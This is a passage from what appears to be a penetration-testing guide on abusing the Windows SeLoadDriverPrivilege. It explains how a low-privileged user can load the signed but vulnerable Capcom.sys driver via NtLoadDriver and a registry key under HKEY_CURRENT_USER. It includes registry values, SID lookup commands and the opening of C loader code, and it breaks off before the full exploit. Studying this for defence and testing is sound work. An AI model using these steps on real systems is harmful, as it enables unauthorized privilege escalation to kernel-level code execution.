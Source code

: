 ```c
    return 0;
}
```


We compile the above, execute and the privilege `SeLoadDriverPrivilege` is now enabled:

![](../../../.gitbook/assets/a10.png)

### Capcom.sys Driver Exploit <a href="#capcom-sys-driver-exploit" id="capcom-sys-driver-exploit"></a>

To further prove the `SeLoadDriverPrivilege` is dangerous, let's **exploit it to elevate privileges**.

You can load a new driver using **NTLoadDriver:**

```cpp
NTSTATUS NTLoadDriver(
  _In_ PUNICODE_STRING DriverServiceName
);
```

By default the driver service name should be under `\Registry\Machine\System\CurrentControlSet\Services\`

But, according with to the **documentation** you **could** also **use** paths under **HKEY\_CURRENT\_USER**, so you could **modify** a **registry** there to **load arbitrary drivers** on the system.\
The relevant parameters that must be defined in the new registry are:

* **ImagePath:** REG\_EXPAND\_SZ type value which specifies the driver path. In this context, the path should be a directory with modification permissions by the non-privileged user.
* **Type**: Value of type REG\_WORD in which the type of the service is indicated. For our purpose, the value should be defined as SERVICE\_KERNEL\_DRIVER (0x00000001).

Therefore you could create a new registry in **`\Registry\User\<User-SID>\System\CurrentControlSet\MyService`** indicating in **ImagePath** the path to the driver and in **Type** the with value 1 and use those values on the exploit (you can obtain the User SID using: `Get-ADUser -Identity 'USERNAME' | select SID` or `(New-Object System.Security.Principal.NTAccount("USERNAME")).Translate([System.Security.Principal.SecurityIdentifier]).value`

```bash
PCWSTR pPathSource = L"C:\\experiments\\privileges\\Capcom.sys";
PCWSTR pPathSourceReg = L"\\Registry\\User\\<User-SID>\\System\\CurrentControlSet\\MyService";
```

The first one declares a string variable indicating where the vulnerable **Capcom.sys** driver is located on the victim system and the second one is a string variable indicating a service name that will be used (could be any service).\
Note, that the **driver must be signed by Windows** so you cannot load arbitrary drivers. But, **Capcom.sys** **can be abused to execute arbitrary code and is signed by Windows**, so the goal is to load this driver and exploit it.

Load the driver:

```c
#include "stdafx.h"
#include <windows.h>
#include <stdio.h>
#include <ntsecapi.h>
#include <stdlib.h>
#include <locale.h>
#include <iostream>
#include "stdafx.h"

NTSTATUS(NTAPI *NtLoadDriver)(IN PUNICODE_STRING DriverServiceName);
VOID(NTAPI *RtlInitUnicodeString)(PUNICODE_STRING DestinationString, PCWSTR SourceString);
NTSTATUS(NTAPI *NtUnloadDriver)(IN PUNICODE_STRING DriverServiceName);

```